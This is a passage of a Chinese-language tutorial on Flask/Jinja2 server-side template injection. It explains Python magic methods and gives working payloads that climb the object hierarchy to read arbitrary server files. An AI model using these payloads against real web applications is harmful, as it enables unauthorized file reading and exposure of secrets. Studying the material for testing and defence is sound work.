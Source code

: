 模板引擎会对输入变量进行编码转义。  

#### d.利用方法

首先，Flask中有一些全局变量，例如：

```
{{config}}
{{requests.environ}}
```

主要是通过Python对象的继承，用魔术方法一步步找到可利用的方法去执行。即找到父类`<type 'object'>`–>寻找子类–>找关于命令执行或者文件操作的模块。  

对象的魔术方法：

```
__class__  返回类型所属的对象
__mro__    返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析。
__base__   返回该对象所继承的基类
// __base__和__mro__都是用来寻找基类的

__subclasses__   每个新类都保留了子类的引用，这个方法返回一个类中仍然可用的的引用的列表
__init__  类的初始化方法
__globals__  对包含函数全局变量的字典的引用
```

下面简单解释一下利用过程

##### 文件读取

```python
#获取''字符串的所属对象
>>> ''.__class__
<class 'str'>

#获取str类的父类
>>> ''.__class__.__mro__
(<class 'str'>, <class 'object'>)

#获取object类的所有子类
>>> ''.__class__.__mro__[1].__subclasses__()
[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'traceback'>, <class 'super'>...
#有很多类，后面省略
```

现在只需要从这些类中寻找需要的类，用数组下标获取，然后执行该类中想要执行的函数即可。比如第41个类是file类，就可以构造利用：

```python
''.__class__.__mro__[2].__subclasses__()[40]('<File_To_Read>').read()
```

再比如，如果没有file类，使用类`<class '_frozen_importlib_external.FileLoader'>`，可以进行文件的读取。这里是第91个类。

```python
''.__class__.__mro__[2].__subclasses__()[91].get_data(0,"<file_To_Read>")
```

